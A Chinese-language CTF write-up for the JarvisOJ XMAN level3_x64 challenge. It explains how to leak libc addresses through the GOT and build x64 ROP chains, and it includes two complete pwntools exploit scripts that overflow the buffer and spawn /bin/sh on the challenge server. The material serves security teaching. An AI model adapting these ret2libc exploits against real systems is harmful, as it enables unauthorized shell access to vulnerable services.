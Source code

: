 ```yaml
---
title: JarvisOJ——XMANlevel3_x64题解
date: 2018-08-10 13:55:00
tags:
- CTF
categories:
- CTF
---
```


## 一、解题思路 ##

checesec查看

![栈保护情况](/assets/img/checksec3_64.jpg)

代码段和数据段不存在随机化，栈不可执行，无金丝雀值。

反汇编level3_x64，可知单纯靠elf=ELF("./level3_x64")，引入level3_x64文件，是不能得到system函数的调用地址的。**观察函数列表就知道，没有system函数，所以PLT表中没有system函数的条目[这个程序没有调用过system函数，故system不参与符号解析过程，符号表中没有system]。**

所以sys_addr = elf.plt['system']或elf.symbols['system']是找不到表项/条目的。

在IDA中反汇编libc-2.19.so，可以在函数列表中找到“system”、字符串窗口中找到“/bin/sh”

![“system”和“/bin/sh”](/assets/img/sys_bin3.jpg)

所以还要引入.so文件[libc_elf=ELF("./libc-2.19.so")]。通过获得有GOT/PLT表项的某个函数A的真实地址以及.so文件中A和system函数和“/bin/sh”字符串偏移量与程序运行时三者的运行时(真实)地址偏移量相同的关系，通过A的真实地址+相等偏移量获得system函数的调用地址和"/bin/sh"字符串的地址。[类似于JOJXMAN3笔记所述]


因为write/read在level3_x64程序中有符号引用，所以他们有PLT条目[可以调用write来打印write _ got->recv(4)->获取write的真实地址]和GOT条目[GOT表泄露了他们的真实地址]

注:

- elf.plt['write']和elf.got['write']，仅仅只是write函数在PLT表和GOT表的索引，不是PLT表和GOT表的具体的内容[以elf.got['write']为索引，索引到的GOT表内容是write函数的运行时(真实)地址]

- python没有指针，故不能*write_got，来获得write函数的真实地址。


与32位下的差别在于，32位机器下：write函数打印write_ got,即write(1,write _ got,4)，3个参数分别布置在栈中ebp+8,+12,+16; 
而64位机器下，打印write_ got为write(1,write _ got,8)，而且3个参数布置在%rdi,%rsi,%rdx。

设置三个参数：简单的方法即使ROPgadgets能直接得到合适的ROP链，要不然就是使用通用gadgets：__ libc_ csu_ init【以下会给出两种方法】

## 二、解题步骤 ##

![查找可用ROP链](/assets/img/ROP3.jpg)

我们可以布置栈，通过POP指令设置寄存器，通过ret指令将ROP连接起来，形成链。

> 0x00000000004006b3 : pop rdi ; ret
> 
> 0x00000000004006b1 : pop rsi ; pop r15 ; ret #多放置8字节任意数据用于填充%r15

通过ROPgadget工具查找的可用ROP链，只能设置%rdi和%rsi寄存器，剩下的%rdx怎么办？

![gdb反汇编在vulnerable_function中断点](/assets/img/disas.jpg)

![观察edx寄存器](/assets/img/disas9.jpg)

运气不错，edx寄存器在read退栈前一刻，保持着0x200[这个其实来自于栈溢出漏洞read(0, &buf, 0x200)中的第三个参数设置，此后vulnerable_function没有再动过这个寄存器]

![edx寄存器值的来源](/assets/img/read9.jpg)


write函数的定义就是ssize_t write(int fd, const void *buf, size_t nbyte);把buf中nbyte写入文件描述符handle所指的文档，成功时返回写的字节数，错误时返回-1.

- fd：文件描述符[1表示写到标准输出，即屏幕]；
- buf：指定的缓冲区，即指针，指向一段内存单元；
- nbyte：要写入文件指定的字节数；
- 返回值：写入文档的字节数（成功），-1（出错）

当写到nbyte的字节限制时，就write结束了。

因此edx大，没关系，多写出一点[>=8就好]。到时候recv(8)，就获取前8字节得到write _ got的值就可以了，剩下的不receive就行。

最后就是0x00000000004006b3和0x00000000004006b1来设置rdi和rsi，然后rdx不需要设置，保持0x200

脚本情况就是：

    #!/usr/bin/python
    
    from pwn import *
    
    context(arch="amd64",os="linux",log_level="debug")
    re = remote("pwn2.jarvisoj.com",9883) 
    #re = gdb.debug(["./level3_x64"])
    
    elf = ELF("./level3_x64")
    write_plt = elf.plt['write']
    write_got = elf.got['write']
    prdi_addr = 0x00000000004006b3
    prsi_addr = 0x00000000004006b1  
    vuln_addr = elf.symbols['vulnerable_function']
    
    
    payload1 = 'a'*0x80 + 'a'*0x8 + p64(prdi_addr)+p64(1)+p64(prsi_addr)+p64(write_got) +'a'*0x8 + p64(write_plt) + p64(vuln_addr)
    re.recvline()
    re.sendline(payload1)
    
    write_addr = u64(re.recv(8))
    
    libc_elf=ELF("./libc-2.19.so")
    
    #just address offset
    sys_relative = libc_elf.symbols['system']
    write_relative = libc_elf.symbols['write']
    bin_relative = libc_elf.search('/bin/sh').next()
    
    sys_addr = write_addr + sys_relative - write_relative
    bin_addr = write_addr + bin_relative - write_relative
    
    payload2 = 'a'*0x80 + 'a'*0x8 + p64(prdi_addr) + p64(bin_addr)+p64(sys_addr)
    
    re.send(payload2)
    
    re.interactive()


还有就是使用通用的gadgets：

![通用的gadgets调用流程](/assets/img/init9.jpg)

    #!/usr/bin/python
    
    from pwn import *
    
    context(arch="amd64",os="linux",log_level="debug")
    re = remote("pwn2.jarvisoj.com",9883) 
    #re = gdb.debug(["./level3_x64"])
    
    elf = ELF("./level3_x64")
    write_plt = elf.plt['write']
    write_got = elf.got['write']
    pr_addr = 0x00000000004006b3
    vuln_addr = elf.symbols['vulnerable_function']
    
    
    
    para_set_addr = 0x00000000004006AA
    
    para_ret_addr = 0x0000000000400690
    
    payload1 = 'a'*0x80 + 'a'*0x8 + p64(para_set_addr)+p64(0)+p64(1)+p64(write_got)+p64(8)+p64(write_got)+p64(1)+ p64(para_ret_addr)+'a'*56 + p64(vuln_addr)
    re.recvline()
    re.sendline(payload1)
    
    write_addr = u64(re.recv(8))
    
    libc_elf=ELF("./libc-2.19.so")
    
    #just address offset
    sys_relative = libc_elf.symbols['system']
    write_relative = libc_elf.symbols['write']
    bin_relative = libc_elf.search('/bin/sh').next()
    
    sys_addr = write_addr + sys_relative - write_relative
    bin_addr = write_addr + bin_relative - write_relative
    
    payload2 = 'a'*0x80 + 'a'*0x8 + p64(pr_addr) + p64(bin_addr)+p64(sys_addr)
    
    re.send(payload2)
    
    re.interactive()
    

注意使用p64,u64,8字节而非4字节








